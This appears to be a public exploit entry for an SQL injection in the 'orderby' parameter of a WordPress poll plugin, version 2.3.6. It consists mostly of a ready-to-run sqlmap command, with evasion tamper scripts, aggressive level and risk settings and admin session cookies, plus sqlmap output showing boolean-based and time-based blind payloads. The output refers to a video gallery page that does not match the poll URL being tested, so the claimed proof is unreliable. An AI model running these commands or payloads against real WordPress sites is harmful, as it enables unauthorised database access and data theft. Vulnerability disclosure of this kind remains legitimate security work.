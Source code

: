 ### Exploit Title: WordPress Poll Plugin SQL Injection 
### Date: 2024-07-06
### Exploit Author: tmrswrr
### Category : Webapps
### Vendor Homepage: https://total-soft.com/wp-poll/
### Version 2.3.6

## Steps to Reproduce:

1. **Access the Admin Panel:**
   - Navigate to the admin panel of your WordPress site.
   - Go to `TS Poll` > `Create Pool` > `Use Theme` and save it.
   - URL: `https://localhost/wordpress/wp-admin/admin.php?page=ts-poll-builder&tsp-id=1`

2. After saving, navigate back to `TS Video Gallery` and click the title:
   - URL: `https://localhost/wordpress/wp-admin/admin.php?page=ts-poll&orderby=Question_Title&order=desc`

3. Search for the `orderby` parameter.

## SQLMAP Command:

```bash
python3 sqlmap.py -u "https://localhost/wordpress/wp-admin/admin.php?page=ts-poll&orderby=Question_Title&order=desc" \
--batch \
--dbms=mysql \
--thread=10 \
--no-cast \
--random-agent \
-v 3 \
--tamper="between,randomcase,space2comment" \
--level=5 \
--risk=3 \
-p orderby \
--cookie="wordpress_logged_in_d31d6d9d0bfd834c03c5a471886561f0=admin|1720435164|r5jSRyl4XMzcZz3xllDos9veD7hga8U8qFIWPQHv5Kr|e111b736b22043864d0f8ea6da823ca00768a110af4da612c555add1979839d1; wordpress_sec_d31d6d9d0bfd834c03c5a471886561f0=admin|1720435164|r5jSRyl4XMzcZz3xllDos9veD7hga8U8qFIWPQHv5Kr|173622110c7f3812695b26c96ba4905a7c760ac41e37645150dd4869ae884c4b; wordpress_test_cookie=WP Cookie check; wp-settings-time-1=1720266472"

---
Parameter: orderby (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: page=tsvg-admin&orderby=(SELECT (CASE WHEN (1078=1078) THEN 0x54535f56475f5469746c65 ELSE (SELECT 2977 UNION SELECT 8545) END))&order=desc
    Vector: (SELECT (CASE WHEN ([INFERENCE]) THEN [ORIGVALUE] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=tsvg-admin&orderby=TS_VG_Title AND (SELECT 6127 FROM (SELECT(SLEEP(5)))mIWx)&order=desc
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
---
